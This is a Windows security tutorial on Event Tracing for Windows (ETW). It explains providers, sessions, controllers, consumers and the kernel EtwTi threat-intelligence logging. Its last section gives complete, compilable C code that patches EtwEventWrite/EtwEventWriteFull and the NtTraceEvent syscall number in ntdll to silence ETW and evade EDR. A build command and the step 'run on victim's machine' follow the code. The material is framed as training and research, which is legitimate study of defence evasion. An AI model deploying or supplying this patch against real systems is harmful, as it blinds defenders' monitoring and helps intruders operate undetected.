# ETW patching

The Windows operating system includes a powerful system tracing mechanism called **Event Tracing for Windows**, or `ETW`, that lets you get detailed information about events and system activity. Events are made by the system itself, whether they are run by the OS (for example, when a DLL is loaded) or by the user (for example, when a file is opened).    

Additionally, kernel-mode drivers and user-mode applications both produce events, which are then recorded in log files. The system events that happened can be understood by getting these log files and reading them. That being said, `ETW` is seen as an extremely useful resource for defenders who are looking into leaks and trying to figure out the methods attackers used.    

Also, security solutions often subscribe to `ETW` events so they can find and stop attackers in real time. Different algorithms and rules will be used by these systems to decide if an event is malicious.    

Based on Microsoft's [documentation](https://learn.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw#etw-architecture), ETW is constructed from four main components:   

**Providers** are at the very top of the `ETW` hierarchy. They make events happen and can be a user-mode program, a kernel-mode driver, or even the Windows kernel itself. A different GUID stands for each service. You can see a list of a system's ETW suppliers by typing logman query providers into the Windows command line. A truncated output of this command is shown in the picture below. We will talk more about the logman command line tool in the next lesson:    

    

Meeting to trace For capturing and handling events from one or more `ETW` providers, a tracing session serves as a logical container. It creates a central location where events can be stored, sorted, and handled. Microsoft says: *"A session is a kernel object that collects events into a kernel buffer and sends them to a specified file or real-time consumer process"* .    

The 
```powershell
logman.exe query -ets
``` 

command can be used to ask about tracing sessions. The results are output below:    

    

Controllers. `ETW` tracing sessions are managed and controlled by controllers, who let the user start, stop, and set up the sessions. A certain `ETW` provider can start sending events to a tracing session once it is turned on. `ETW` users can then read these events.    

Consumers. Consumers Applications that connect to an `ETW` session tracing and read events sent to it by one or more sources are referred to as `ETW` consumers. You can find a tracing session that is running even though no `ETW` consumer is connected to it. More than one `ETW` consumer can be connected to more than one tracing session, which lets it read more than one type of logged event, such as system events and network events.     

### architecture

The following picture shows how the `ETW` design is linked together. It is important to remember that trace files end in `.etl` and are created by `ETW` trace sessions that are active. The service records events during the session and saves them in these files.    

    

In order to provide the infrastructure for event-based tracing and logging, the `ETW` components are integrated into the Windows OS kernel. A set of WinAPIs lets user-mode applications access `ETW` functionality. This lets developers interact with the `ETW` infrastructure and use its tracing features. The `ETW` WinAPIs can be used by user-mode applications to add and remove `ETW` providers, write events to the trace session, and set up events to be logged. These are some of the `ETW` WinAPIs:    

[EventWrite](https://learn.microsoft.com/en-us/windows/win32/api/evntprov/nf-evntprov-eventwrite) and [EventWriteExWrite](https://learn.microsoft.com/en-us/windows/win32/api/evntprov/nf-evntprov-eventwriteex) an event to the ETW event stream. These WinAPIs are also named `EtwEventWrite` and `EtwEventWriteEx`, respectively.     

[StartTraceA](https://learn.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-starttracea) and [StopTraceA](https://learn.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-stoptracea) - Start and stop an ETW tracing session.     

[QueryAllTraces](https://learn.microsoft.com/en-us/windows/win32/api/evntrace/nf-evntrace-queryalltracesa) - Retrieves the properties for all running ETW tracing sessions.    

By either patching or hooking these methods, you can change the execution path of these WinAPIs and make `ETW` evasion techniques. It's important to note that the `ETW` methods are often taken from the `advapi32` DLL.    

### kernel level ETW

`ntoskrnl.exe`, which is also called Windows NT Operating System Kernel Executable, is the file that manages hardware abstraction, processes, and memory. It includes the kernel and executive layers of the Microsoft Windows NT kernel. These methods, called `EtwTi`, handle the *"threat intelligence"* part of ETW's kernel implementation.     

    

    

The `IDA Pro` or  `Ghidra` can be used to look at the `ntoskrnl.exe` code and figure out where the `EtwTi` functions are called. In this case, `MiReadWriteVirtualMemory` is the method being looked at. It is called by the `NtReadVirtualMemory`, `NtWriteVirtualMemory`, and `NtReadVirtualMemoryEx` syscalls.    

For example, in `WinDbg` we can use command:    

```powershell
u ntoskrnl!MiReadWriteVirtualMemory L100
```

Now, inside the `MiReadWriteVirtualMemory` function code, you can search for function calls that start with `EtwTi`     

    

Disassembling via Ghidra or IDAPro:    

    

    

If you look for the `EtwTi` prefix in IDA, you'll see other functions that are similar, as the picture below shows.    

    

Most of the time, the name of the `EtwTi` function will tell you what is being logged. Here are a few examples to help you understand this better.     

`EtwTiLogSetContextThread` - this function is called from the `PspSetContextThreadInternal` and `PspWow64SetContextThread` kernel functions. When the context of a thread is changed, this `EtwTi` function is called.    

    

   

`EtwTiLogSuspendResumeProcess` - this function is called by a number of kernel functions, but the `PsMultiResumeProcess` and `PsSuspendProcess` functions are the most important. When suspending or restarting a process, this `EtwTi` function is called.     

    

`EtwTiLogAllocExecVm` - when the `MiAllocateVirtualMemory` kernel function is called, this function is called. When executable memory is allocated, this `EtwTi` function is called.    

    

`EtwTiLogProtectExecVm` - this function is called from the `NtProtectVirtualMemory` syscall in the kernel. When the memory rights are changed to executable, this EtwTi function is called.    

    

### bypassing EtwTi logging

It's not easy to stop threat intelligence `ETW` logging from happening in user mode; you usually need to be in kernel mode to do that.    

### ETW tools

The theoretical ideas surrounding `ETW` architecture, components, and functions were covered in the previous module. This lesson will show you a few tools that you can use to interact with `ETW`. The reader gains a practical understanding of `ETW`'s function through interaction with it, which is necessary before talking about security bypass methods.    

An example of an `ETW` controller is `Logman`, which is a command-line tool that comes with Windows. Users can start and end `ETW` tracing events with this tool. The events that happen during these tracing sessions are saved in files that are made to store traces. These files usually have the `.etl` extension. `Logman` will show the following output when the help command (`/?`) is run.    

     

    

[ETWExplorer](https://github.com/zodiacon/EtwExplorer) is an open-source tool that lets you look at `ETW` providers in more detail and gather information about what each one says. After getting the `ETWExplorer` tool, you can follow these steps to look at a specific `ETW` service, like `Microsoft-Windows-Threat-Intelligence` in this case.    

    

     

### practical example of ETW patching

We have two methods to stop ETW from reporting what the application is doing:     

Method A (`PatchEtwWriteFunctionsStart`):     

It finds the high-level functions `EtwEventWrite` and `EtwEventWriteFull` inside `ntdll.dll`.     

It overwrites the beginning of these functions with a "stub":   

```bash
xor eax, eax; ret.
```

Result: Whenever the application (or a library) tries to log an event, the function immediately returns `0` (`Success`) without actually sending any data to the kernel.     

Method B (`PatchNtTraceEventSSN`):

This is deeper. Almost all ETW functions eventually call the syscall `NtTraceEvent`.     

We can create the code which searches the `NtTraceEvent` function in memory for the `mov eax, SSN` instruction (where `SSN` is the System Service Number).    

It overwrites the `SSN` with `0xFF`.    

Result: When a syscall is attempted, the CPU tells the kernel to execute syscall number `255` (which is usually invalid or doesn't exist). The logging attempt fails silently.     

Full source code looks like this:    

```cpp
/* 
 * hack.c - ETW patching via bytes
 * from disk to bypass EDR
 * author: @cocomelonc
 * for DEFCON education training and research
*/
#include <windows.h>
#include <stdio.h>

#define x64_RET_INSTRUCTION_OPCODE      0xC3    // 'ret'  - instruction opcode
#define x64_MOV_INSTRUCTION_OPCODE      0xB8    // 'mov'  - instruction opcode

#define  x64_SYSCALL_STUB_SIZE        0x20    // size of a syscall stub is 32

typedef enum PATCH {
  PATCH_ETW_EVENTWRITE,
  PATCH_ETW_EVENTWRITE_FULL
};

BOOL PatchEtwWriteFunctionsStart(enum PATCH ePatch) {

  DWORD    dwOldProtection    = 0x00;
  PBYTE    pEtwFuncAddress    = NULL;
  BYTE    pShellcode[3]    = {
    0x33, 0xC0,      // xor eax, eax
    0xC3        // ret
  };


  // Get the address of "EtwEventWrite" OR "EtwEventWriteFull" based of 'ePatch'
  pEtwFuncAddress = GetProcAddress(GetModuleHandleA("NTDLL"), ePatch == PATCH_ETW_EVENTWRITE ? "EtwEventWrite" : "EtwEventWriteFull");
  if (!pEtwFuncAddress) {
    printf("[!] GetProcAddress failed with error  %d \n", GetLastError());
    return FALSE;
  }


  printf("\t> Address Of \"%s\" : 0x%p \n", ePatch == PATCH_ETW_EVENTWRITE ? "EtwEventWrite" : "EtwEventWriteFull", pEtwFuncAddress);
  printf("\t> Patching with \"33 C0 C3\" ... ");

  // Change memory permissions to RWX
  if (!VirtualProtect(pEtwFuncAddress, sizeof(pShellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
    printf("[!] VirtualProtect [1] failed with error  %d \n", GetLastError());
    return FALSE;
  }

  // Apply the patch
  memcpy(pEtwFuncAddress, pShellcode, sizeof(pShellcode));

  // Change memory permissions to original
  if (!VirtualProtect(pEtwFuncAddress, sizeof(pShellcode), dwOldProtection, &dwOldProtection)) {
    printf("[!] VirtualProtect [2] failed with error  %d \n", GetLastError());
    return FALSE;
  }

  printf("[+] DONE ! \n");

  return TRUE;
}


BOOL PatchNtTraceEventSSN() {
  
  DWORD    dwOldProtection = 0x00;
  PBYTE    pNtTraceEvent  = NULL;

  // Get the address of "NtTraceEvent"
  pNtTraceEvent = (PBYTE)GetProcAddress(GetModuleHandleA("NTDLL"), "NtTraceEvent");
  if (!pNtTraceEvent)
    return FALSE;

  printf("\t> Address of \"NtTraceEvent\" : 0x%p \n", pNtTraceEvent);

  // Search for NtTraceEvent's SSN pointer
  for (int i = 0; i < x64_SYSCALL_STUB_SIZE; i++){

    if (pNtTraceEvent[i] == x64_MOV_INSTRUCTION_OPCODE) {
      // Set the pointer to NtTraceEvent's SSN and break
      pNtTraceEvent = (PBYTE)(&pNtTraceEvent[i] + 1);  
      break;
    }

    // If we reached the 'ret' or 'syscall' instruction, we fail
    if (pNtTraceEvent[i] == x64_RET_INSTRUCTION_OPCODE || pNtTraceEvent[i] == 0x0F || pNtTraceEvent[i] == 0x05)
      return FALSE;
  }
  
  printf("\t> Position Of NtTraceEvent's SSN : 0x%p \n", pNtTraceEvent);
  printf("\t> Patching with \"FF\" ... ");

  // Change memory permissions to RWX
  if (!VirtualProtect(pNtTraceEvent, sizeof(DWORD), PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
    printf("[!] VirtualProtect [1] failed with error  %d \n", GetLastError());
    return FALSE;
  }

  // Apply the patch - Replacing NtTraceEvent's SSN with a dummy one
  // Dummy SSN in reverse order
  *(PDWORD)pNtTraceEvent = 0x000000FF;  

  // Change memory permissions to original
  if (!VirtualProtect(pNtTraceEvent, sizeof(DWORD), dwOldProtection, &dwOldProtection)) {
    printf("[!] VirtualProtect [2] failed with error  %d \n", GetLastError());
    return FALSE;
  }

  printf("[+] DONE ! \n");

  return TRUE;
}

int main() {

  
  //PatchEtwWriteFunctionsStart(PATCH_ETW_EVENTWRITE);
  //PatchEtwWriteFunctionsStart(PATCH_ETW_EVENTWRITE_FULL);

  PatchNtTraceEventSSN();
  
  printf("[#] Press <Enter> To Quit ... \n");
  getchar();

  return 0;
}
```

### demo

Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

Then run on victim's machine:    

```powershell
.\hack.exe
```

Once the instruction: 

```cpp
*(PDWORD)pSSN = 0x000000FF; 
```

is executed:

    

For step by step checking the correctness:    

    

    

    

    

As you can see, successfully patched!     
